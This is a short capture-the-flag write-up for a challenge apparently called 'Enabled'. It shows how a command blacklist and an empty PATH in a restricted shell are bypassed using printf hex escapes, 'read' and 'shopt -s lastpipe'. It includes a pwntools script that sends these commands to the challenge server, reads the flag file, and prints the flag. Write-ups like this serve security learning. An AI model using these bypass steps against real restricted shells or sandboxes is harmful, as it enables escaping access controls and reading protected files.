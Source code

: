 ```yaml
---
ai_date: 2025-05-17 21:38:39
ai_summary: Bypassed blacklist using printf and read to set PATH, then exploited with shopt -s lastpipe and cat flag
ai_tags:
  - shell
  - cmd-injection
  - path-traversal
created: 2025-05-17T04:45
points: 436
solves: 96
title: Enabled
updated: 2025-05-17T22:01
---
```


Well we can use `printf` to bypass the blacklist.

Let's then try refilling the PATH variable with `read`.

```bash
printf '\\x2fbin:\\x2fusr\\x2fbin'|read PATH
set
```

Well it didn't work, `PATH` is empty.

I looked online and apparently there is this command `shopt -s lastpipe` that allows the last command in a pipeline to run in the current shell.

So it would actually set the `PATH` variable.

```python
from pwn import *
r = remote("enabled.chal.cyberjousting.com", 1352)
r.sendline(b"shopt -s lastpipe")
r.sendline(b"printf '\\\\x2fbin:\\\\x2fusr\\\\x2fbin'|read PATH")
r.sendline(b"bash")
r.sendline(b"cat /flag/flag.txt")
print(r.recvall(timeout=1).decode())
```

```flag
byuctf{enable_can_do_some_funky_stuff_huh?_488h33d}
```